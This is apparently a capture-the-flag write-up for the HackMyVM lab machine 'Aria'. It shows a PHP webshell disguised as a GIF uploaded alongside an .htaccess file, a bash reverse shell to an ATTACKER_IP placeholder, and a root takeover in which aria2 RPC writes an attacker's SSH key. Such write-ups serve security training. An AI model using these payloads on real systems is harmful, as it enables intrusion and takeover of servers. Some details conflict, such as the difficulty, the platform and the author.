


# 🏴‍☠️ Aria — Hackmyvm Writeup
**Difficulty**: Easy | **Author**: Havk | **Date**: May 9, 2026

---

## 📋 Table of Contents
1. [Reconnaissance](#recon)
2. [Web Enumeration](#web)
3. [File Upload Bypass](#upload)
4. [Port 1337 — Debug Service](#1337)
5. [Webshell Execution](#webshell)
6. [User Flag & Steganography](#user)
7. [Privilege Escalation via aria2 RPC](#privesc)
8. [Root Flag](#root)
9. [Key Takeaways](#takeaways)

---

## 🔍 1. Reconnaissance

Started with a full port scan to avoid missing anything:

```bash
nmap -sV -sC -p- --min-rate 5000 -oN aria_full.txt TARGET_IP
```

**Results:**

| Port | Service | Notes                |
| ---- | ------- | -------------------- |
| 80   | HTTP    | Web application      |
| 1337 | Unknown | Custom debug service |


> ⚠️ **Critical note**: I initially missed ports `1337`  because I ran a default scan first. Only after doing a **full `-p-` scan** mid-engagement did they appear. This changed everything. **Always scan all ports.**

---

## 🌐 2. Web Enumeration

Visited port `80` — a basic web app. Started directory bruteforcing immediately:

```bash
gobuster dir \
  -u http://TARGET_IP/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,txt,html \
  -o gobuster_out.txt
```

**Discovered:**
```
/upload.php     [200 OK]
/uploads/       [301 Redirect]
```

Navigated to `upload.php` — a simple file upload form was present. Time to dig deeper.

---

## 📁 3. File Upload Bypass

### Source Code Analysis

Inspecting the page source revealed something important — the server was **hashing uploaded filenames with MD5** before saving:

```
Original filename:  shell.php
Stored on disk as:  ab3f91c2d8e74f1b0a6c5d2e9f3b7a1c.php
```

This created two problems:
- If I uploaded `.htaccess` → it gets renamed → **Apache ignores it completely**
- Even if PHP executes — I **can't know the stored filename** to trigger it

### Bypass Strategy

**Step 1** — Craft a `.htaccess` to force `.gif` files to execute as PHP:

```apache
AddType application/x-httpd-php .gif
```

**Step 2** — Create a GIF webshell with magic bytes:

```php
GIF89a;
<?= exec($_GET['cmd']); ?>
```

Save as `poison.gif`.

> **Why `GIF89a`?**
> These are the **magic bytes** of a GIF file. Most upload validators check the file signature (first bytes), not just the extension. Adding `GIF89a` tricks the validator while PHP code remains fully functional.

> **Why `exec()`?**
> Testing showed `system()` and `shell_exec()` either got filtered or produced no output. `exec($_GET['cmd'])` was clean and reliable.

**Step 3** — Upload both files:

```bash
curl -F "file=@.htaccess" http://TARGET_IP/upload.php
curl -F "file=@poison.gif" http://TARGET_IP/upload.php
```

Upload confirmed — but **we still don't know the MD5 hashed filenames.** This is where port `1337` becomes essential.

---

## 🔌 4. Port 1337 — The Debug Service

Connected with netcat:

```bash
nc -nv TARGET_IP 1337
```

Got an interactive prompt. Ran `showpath`:

```bash
$ showpath
--- Upload Paths ---
Sat 09 May 2026 08:02:07 AM EDT: New file created: /var/www/html/uploads/5299b7ce4d4d62c2411f086f51e9cee5.htaccess
Sat 09 May 2026 08:03:28 AM EDT: New file created: /var/www/html/uploads/964a6724ff566913498206e5b0a17749.jpg
Sat 09 May 2026 08:05:10 AM EDT: New file created: /var/www/html/uploads/7dc91c5472f86b350cb52bfd0f2cfcbf.jpg
Sat 09 May 2026 08:07:05 AM EDT: New file created: /var/www/html/uploads/e4547a2fe610800f826646dc35ad268b.jpg
Sat 09 May 2026 08:25:56 AM EDT: New file created: /var/www/html/uploads/05de0d2facd012d1748fe1669ba903b3.jpg
Sat 09 May 2026 08:26:19 AM EDT: New file created: /var/www/html/uploads/11e29911f4b0954f8099c6355b49c80e.jpg
Sat 09 May 2026 08:39:54 AM EDT: New file created: /var/www/html/uploads/25b11feb8179f6af9271ecb199e63585.gif
```

> 🎯 **This was the missing piece.** Port `1337` was a **debug monitoring service** that leaked real filesystem paths of every uploaded file — including the MD5 hashed names. Without this, the entire upload attack chain would be completely blind.

**Our webshell was stored as:**
```
/var/www/html/uploads/25b11feb8179f6af9271ecb199e63585.gif
```

---

## 💻 5. Webshell Execution

Triggered the webshell with the now-known filename:

```bash
curl "http://TARGET_IP/uploads/25b11feb8179f6af9271ecb199e63585.gif?cmd=id"
```

**Response:**
```
GIF89a; www-data
```

✅ **Remote Code Execution confirmed as `www-data`!**

Upgraded immediately to a proper reverse shell:

```bash
# Listener on attacker machine
nc -lvnp 4444
```

```bash
# Trigger via webshell
curl "http://TARGET_IP/uploads/25b11feb8179f6af9271ecb199e63585.gif\
?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/ATTACKER_IP/4444+0>%261'"
```

Shell received. Stabilized it properly:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z
stty raw -echo; fg
```

---

## 🔎 6. User Flag & Zero-Width Steganography

### User Flag

Found `user.txt` on the system:

```bash
www-data@Aria:~$ cat user.txt
flag{user-d13adadc6bbc1391394a5198cba2d1d7}
```

Looks clean. But something felt off — let's look closer.

### Hidden Data Discovery

Running `cat -A` to reveal non-printable characters:

```bash
www-data@Aria:~$ cat -A user.txt
flag{user-d13adadc6bbc1391394a5198cba2d1d7}$ M-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^L...
```

> 💡 **There is hidden data after the flag!** These strange `M-bM-^@M-^K` sequences are **Zero-Width Unicode characters** — invisible to the naked eye but present in the file.

### Decoding the Steganography

The two character types map to binary bits:

| `cat -A` output | Unicode codepoint | Binary bit |
|---|---|---|
| `M-bM-^@M-^K` | U+200B (Zero Width Space) | `0` |
| `M-bM-^@M-^L` | U+200C (Zero Width Non-Joiner) | `1` |

**Python decode script:**

```python
# Run: python3 decode_zwc.py
with open("user.txt", "r", encoding="utf-8") as f:
    content = f.read()

bits = ""
for char in content:
    if ord(char) == 0x200B:   # Zero Width Space = 0
        bits += "0"
    elif ord(char) == 0x200C: # Zero Width Non-Joiner = 1
        bits += "1"

# Convert bits to ASCII
result = ""
for i in range(0, len(bits) - len(bits) % 8, 8):
    result += chr(int(bits[i:i+8], 2))

print(f"[+] Hidden message: {result}")
```

**Output:**
```
[+] Hidden message: token:maze-sec
```

> 🔑 **The aria2 RPC token was hidden inside the user flag using Zero-Width Character Steganography.** A completely invisible message that only reveals itself when you look at the raw bytes. This is an incredibly clever challenge mechanic.

---

## ⬆️ 7. Privilege Escalation — aria2 RPC

### Internal Service Discovery

Checked for locally listening services:

```bash
ss -tlnp
```

```
tcp   LISTEN   0   128   127.0.0.1:6800   0.0.0.0:*
```

Port `6800` was open — this matches the aria2 RPC port from our initial nmap scan.

### What is aria2 RPC?

**aria2** is a lightweight multi-protocol download utility. When launched with `--enable-rpc`, it exposes a **JSON-RPC API on port 6800** that allows remote control of downloads.

**The critical vulnerability here:**
> aria2 was running as **root** — meaning it could write downloaded files to **any location on the filesystem**, including `/root/.ssh/`.

### Attack Plan

```
1. Generate SSH key pair locally
2. Serve public key over HTTP
3. Use aria2 RPC with token "maze-sec" to fetch our public key
4. Tell aria2 to save it as /root/.ssh/authorized_keys
5. SSH in as root using our private key
```

### Execution

**Step 1** — Generate SSH keypair on attacker machine:

```bash
ssh-keygen -t rsa -f robertj_key -N ""
# robertj_key      ← private key (keep this)
# robertj_key.pub  ← public key (send to target)
```

**Step 2** — Host the public key:

```bash
python3 -m http.server 8000
```

**Step 3** — Fire the aria2 RPC request from the `www-data` shell:

```bash
curl -X POST \
  -d '{
    "jsonrpc": "2.0",
    "method":  "aria2.addUri",
    "id":      "1",
    "params": [
      "token:maze-sec",
      ["http://ATTACKER_IP:8000/robertj_key.pub"],
      {
        "dir": "/root/.ssh",
        "out": "authorized_keys"
      }
    ]
  }' \
  http://127.0.0.1:6800/jsonrpc
```

**Response:**
```json
{"id":"1","jsonrpc":"2.0","result":"902be29dc2b1fc29"}
```

✅ **aria2 (running as root) fetched our public key and wrote it to `/root/.ssh/authorized_keys`.**

### Full Attack Flow



---

## 🚩 8. Root Flag

```bash
ssh -i robertj_key root@TARGET_IP
```

```bash
root@Aria:~# id
uid=0(root) gid=0(root) groups=0(root)

root@Aria:~# cat /root/root.txt
flag{root-374495cbd5d79b6e45b7778cbac070cc}
```

**🎉 Machine rooted!**

---

## 🗺️ Full Attack Chain



---

## 📚 9. Key Takeaways

### Lessons Learned

**1. Always scan all ports:**
```bash
nmap -p- --min-rate 5000 TARGET_IP
# Default scans miss critical ports like 1337 and 6800
```

**2. MD5 filename hashing ≠ security:**
> Renaming files to their MD5 hash doesn't prevent execution — it just makes the filename unpredictable. Pair it with an **information disclosure** bug (port 1337 debug service) and the protection is completely nullified.

**3. Magic bytes bypass:**
```
GIF89a;              ← Fools MIME type validators
<?= exec($_GET['cmd']); ?>   ← PHP executes normally
```

**4. Zero-Width Character Steganography:**
> Hidden data can be embedded invisibly inside text files using Unicode zero-width characters. **Always run `cat -A` or `xxd` on suspicious files** — especially flags and notes.
```bash
cat -A file.txt    # Show non-printable characters
xxd file.txt       # Raw hex dump
strings file.txt   # Extract readable strings
```

**5. aria2 RPC = game over if running as root:**
> Port `6800` + aria2 running as root + accessible token = **write any file anywhere as root.** This is a lesser-known but devastating privilege escalation vector.
```bash
# Always check for aria2 RPC
curl http://127.0.0.1:6800/jsonrpc \
  -d '{"jsonrpc":"2.0","method":"aria2.getVersion","id":"1","params":[]}'
```

---

### Vulnerability Summary

| # | Vulnerability | Impact |
|---|---|---|
| 1 | Unrestricted File Upload + Magic Bytes Bypass | RCE |
| 2 | Debug Service Leaking File Paths (Port 1337) | Info Disclosure |
| 3 | Zero-Width Steganography in user.txt | Credential Exposure |
| 4 | aria2 RPC Running as Root (Port 6800) | Privilege Escalation |

---

> *"This machine was a perfect chain — each vulnerability was useless alone, but together they led straight to root. The steganography trick was the most creative part. Always look deeper than what you can see."*
>
> — Tom, 2026

---

**Tags**: `#FileUpload` `#MagicBytes` `#Steganography` `#ZeroWidthChars` `#aria2RPC` `#PrivEsc` `#DebugLeak` `#TryHackMe` `#MediumHard`